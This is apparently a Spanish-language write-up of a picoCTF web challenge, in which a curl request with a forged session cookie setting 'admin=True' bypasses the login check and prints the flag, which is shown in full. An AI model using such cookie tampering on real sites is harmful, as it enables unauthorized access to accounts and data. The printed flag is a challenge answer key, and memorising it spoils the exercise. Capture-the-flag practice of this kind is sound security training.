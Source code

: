 The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:157

Hints:
Hmm it doesn't seem to check anyone's password, except for Joe's?

Solución
Por medio de la función curl, modificar la cookie de sesión para poder tener acceso como administrador y poder ver la flag
```zsh
diego@Tallin: curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: user=diego; password=hola; admin=True"
| grep "picoCTF"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0    283      0  0:00:04  0:00:04 --:--:--   310
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
```
